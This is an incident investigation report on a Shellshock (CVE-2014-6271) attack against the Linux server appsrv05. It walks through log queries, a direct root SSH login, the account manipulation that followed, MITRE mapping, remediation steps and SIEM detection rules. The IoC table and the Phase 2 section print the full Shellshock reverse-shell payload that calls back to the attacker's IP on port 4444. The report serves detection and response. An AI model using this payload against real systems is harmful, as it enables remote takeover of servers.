




# Incident Investigation Report: Apache Shellshock Exploitation, SSH Compromise & Privilege Manipulation

**Target System:** `appsrv05`

**Severity:** Critical

**Date of Incident:** April 16, 2025

**Prepared By:** Neel Soni

---

## Executive Summary

On **April 16, 2025**, an external threat actor conducted a multi-phase intrusion targeting the Linux application server **`appsrv05`**.

Originating from source IP **`192.168.52.69`**, the attacker performed initial reconnaissance using custom HTTP user-agent signatures before launching multiple Shellshock (CVE-2014-6271) exploit payloads across CGI endpoints to establish interactive command execution. Following remote web exploitation probes, the adversary leveraged compromised direct SSH authentication controls to gain immediate **`root`** access. Post-exploitation telemetry confirms that the threat actor updated system audit configurations, refreshed credentials, and modified system user passwords to consolidate control over `appsrv05`.

Immediate host isolation, root credential rotation, and emergency patching of Bash/Apache software components are required.

---

## Indicators of Compromise (IoCs) & Incident Summary

| Category | Indicator / Detail | Description |
| --- | --- | --- |
| **Attacker Infrastructure** | `192.168.52.69` | Source IP for web scanning, Shellshock payloads, and root SSH access |
| **User-Agent Signature** | `attacker03` | Reconnaissance user-agent string observed in Apache access logs |
| **Target Endpoints** | `/cgi-sys/entropysearch.cgi`, `/cgi-sys/defaultwebpage.cgi`, `/cgi-mod/index.cgi`, `/cgi-bin/test.cgi` | Vulnerable CGI endpoints targeted for remote environment variable injection |
| **Reverse Shell Payload** | `/bin/bash -c /bin/bash -i >& /dev/tcp/192.168.52.69/4444 0>&1 &` | Shellshock command injection string attempting TCP connection to port `4444` |
| **Compromised Account** | `root` | Primary administrative account compromised via SSH authentication |

---

## Detailed Technical Narrative & Incident Walkthrough

### Phase 1: Web Reconnaissance & User-Agent Discovery

The investigation began by auditing web server access logs ingested in Elastic Security under dataset `apache.access` for the timeframe between **10:40:00 and 10:52:30 UTC**:

```kql
event.dataset: "apache.access"

```

While background operational telemetry logged standard monitoring traffic (e.g., `Go-http-client/1.1` probing `/server-status?auto=`), a distinct web request was captured at **10:41:00.000 UTC**. An external probe hit the root URI (`/`) presenting an anomalous custom User-Agent string: **`attacker03`**.

*Figure 1: Elastic Security log display identifying anomalous user-agent 'attacker03' hitting Apache on appsrv05.*


---

### Phase 2: Exploitation Attempt (Shellshock Command Injection)

Advancing the query to evaluate traffic from source IP **`192.168.52.69`** between **10:52:30 and 11:03:30 UTC** revealed active vulnerability exploitation:

```kql
source.ip: "192.168.52.69"

```

Starting at **10:54:26.000 UTC**, the adversary issued rapid-fire HTTP GET requests across multiple `/cgi-*` endpoints. The HTTP Referrer header fields contained function definition strings designed to exploit the Shellshock vulnerability in GNU Bash:

```bash
() { :; }; /bin/bash -c /bin/bash -i >& /dev/tcp/192.168.52.69/4444 0>&1 &

```

Specific endpoints targeted included:

* `10:54:26.000 UTC`: `/cgi-sys/entropysearch.cgi`
* `10:54:27.000 UTC`: `/cgi-sys/defaultwebpage.cgi`
* `10:54:28.000 UTC`: `/cgi-mod/index.cgi`
* `10:54:29.000 UTC`: `/cgi-bin/test.cgi`

Error log telemetry at **10:54:29.815 UTC** confirmed script execution attempts, showing Apache attempting to execute `/usr/lib/cgi-bin/test.cgi` with the injected function header.

*Figure 2: HTTP telemetry capturing Shellshock payload injections directed at CGI scripts with reverse shell callbacks to port 4444.*


---

### Phase 3: Initial Access (Direct Root SSH Login)

Following the web application exploitation phase, authentication telemetry was queried between **11:03:30 and 11:15:30 UTC** to verify host access:

```kql
source.ip : "192.168.52.69" and event.dataset : "system.auth"

```

At **11:05:14.000 UTC**, two concurrent SSH login events were logged:

* `event.action`: `ssh_login`
* `user.name`: `root`
* `system.auth.ssh.event`: `Accepted`

The adversary successfully established an interactive SSH session directly as the **`root`** user from IP `192.168.52.69`.

*Figure 3: System authentication logs verifying accepted SSH password authentication for user 'root' from 192.168.52.69.* 



---

### Phase 4: Post-Exploitation & Account Manipulation

To determine the extent of post-access actions, process and system audit logs were evaluated on host **`appsrv05`** starting at **11:05:14 UTC**:

```kql
agent.name: "appsrv05"

```

Within seconds of authenticating, the threat actor initiated administrative manipulation across interactive terminal session `/dev/pts/0`:

* **`11:05:15.296 UTC`**: Executed `changed-audit-configuration` to alter system logging behavior, followed by launching an interactive TTY session (`/dev/pts/0`).
* **`11:05:15.356 UTC`**: Triggered `refreshed-credentials` under the `root` context over SSH.
* **`11:05:15.456 UTC`**: Executed `changed-password` via `/dev/pts/0`, modifying local account credentials to maintain persistence and prevent administrator lockout recovery.

*Figure 4: Audit telemetry documenting post-access activities including audit log modification and root credential alteration.* 


---

## Threat Mapping (MITRE ATT&CK)

| Tactic | Technique ID | Technique Name | Applied Context |
| --- | --- | --- | --- |
| **Initial Access** | [T1190](https://attack.mitre.org/techniques/T1190/) | Exploit Public-Facing Application | Target Bash Shellshock (CVE-2014-6271) via Apache CGI script headers. |
| **Execution** | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | Command and Scripting Interpreter: Unix Shell | Interactive reverse shell payload targeting port `4444`. |
| **Initial Access / Escalation** | [T1078.003](https://attack.mitre.org/techniques/T1078/003/) | Valid Accounts: Local Accounts | Gained administrative access via direct root SSH login. |
| **Persistence / Defense Evasion** | [T1098](https://attack.mitre.org/techniques/T1098/) | Account Manipulation | Altered audit configurations and changed system passwords at 11:05 UTC. |

---

## Comprehensive Remediation & Guidance

### 1. Immediate Containment Action Plan

* **Host Isolation:** Immediately isolate `appsrv05` from the network to block active C2 outbound channels and prevent further unauthorized SSH control.
* **IP Perimeter Blocking:** Block all incoming and outgoing traffic to `192.168.52.69` on perimeter firewalls and host-level security controls.
* **Session Termination & Credential Reset:**
* Terminate active SSH connections and kill interactive TTY sessions (`/dev/pts/0`).
* Perform a forced password reset for `root` and all standard system accounts via out-of-band console access.


### 2. Vulnerability Eradication & Hardening

* **Patch System Binaries:** Upgrade `bash` to the latest non-vulnerable version across all Linux infrastructure to resolve Shellshock vulnerabilities.
* **Harden SSH Configuration (`/etc/ssh/sshd_config`):**
* Disable direct root logins: Set `PermitRootLogin no`.
* Disable standard password authentication: Set `PasswordAuthentication no` and enforce SSH key-based access with passphrases.


* **CGI Execution Controls:** Audit `/cgi-bin` directories; disable CGI module execution in Apache (`a2dismod cgi cgid`) if web scripts are no longer required.

### 3. SIEM Detection Engineering Rules

* **Alert Rule 1 (Shellshock Signature Detection):** Trigger a critical alert when HTTP headers (Referrer, User-Agent, Cookie) contain the pattern `() { :; };`.
* **Alert Rule 2 (Direct Root SSH Login):** Alert on any accepted SSH authentication where `user.name: "root"`.
* **Alert Rule 3 (CGI Endpoint Anomalies):** Alert when an external IP generates $\ge 5$ requests to `/cgi-bin/*` or `/cgi-sys/*` endpoints within 1 minute.